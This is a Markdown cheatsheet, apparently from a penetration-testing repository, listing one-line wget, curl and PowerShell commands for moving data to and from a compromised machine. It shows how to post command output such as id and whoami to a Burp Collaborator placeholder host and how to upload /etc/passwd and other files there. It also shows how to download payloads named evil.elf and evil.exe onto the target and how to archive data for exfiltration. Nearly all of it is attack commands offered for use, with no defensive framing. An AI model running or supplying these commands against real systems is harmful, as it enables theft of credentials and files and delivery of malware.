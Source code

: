 # Data Transfer Cheatsheet

## Posting Command Output
Use these to post the output of commands to a remote HTTP server.

### wget
```
wget --method="POST" --body-data "$(id)" http://your-sub-domain.burpcollaborator.net -O /dev/null
```

### curl
```
curl -X POST --data "$(id)" http://your-sub-domain.burpcollaborator.net
```

### PowerShell
```
powershell.exe -Command (New-Object System.Net.WebClient).UploadString('http://your-sub-domain.burpcollaborator.net', (Invoke-Expression -Command:'whoami'))
```

## UPLOADING FILES
Use these commands to move files off of the system
### wget
```
wget --post-file /etc/passwd http://your-sub-domain.burpcollaborator.net -O /dev/null
```

### curl
```
curl -X POST -d @/etc/passwd http://your-sub-domain.burpcollaborator.net
```

### PowerShell
```
powershell.exe -Command (New-Object System.Net.WebClient).UploadFile('http://your-sub-domain.burpcollaborator.net', 'c:\path\to\file.ext')
```

## DOWNLOADING FILES
Download files when you need to move data onto the system.  On Linux, don’t forget that you need to chmod +x any file that you download.
### wget
```
wget http://domain.com/evil.elf -O /tmp/evil
```

### curl
```
curl -O http://domain.com/evil.elf -o /tmp/evil
```

### PowerShell
```
powershell.exe -Command (New-Object System.Net.WebClient).DownloadFile('http://domain.com/evil.exe', 'c:\path\to\file.ext')
```

## COMPRESSION
Sometimes it’s more efficient to create an archive on the remote system and then exfiltrate the archive containing all the interesting data you found.  PowerShell compression is relatively new and may not be supported in older versions.  On Linux, tar is almost always installed.

### Windows
```
Powershell.exe -Command "Compress-Archive -Path 'c:\folder\or\file\to\archive' -DestinationPath 'c:\path\to\save\new\archive.zip'"
```

7zip is a common application that may be installed on the system.  The path to 7z.exe may change based on the system.

```
"c:\Program Files\7-Zip\7z.exe" a c:\path\to\save\new\archive.zip c:\folder\or\file\to\archive\
```

### Linux
```
tar -czf /path/to/output/file.tar.gz /path/to/folder/or/file/to/compress
```
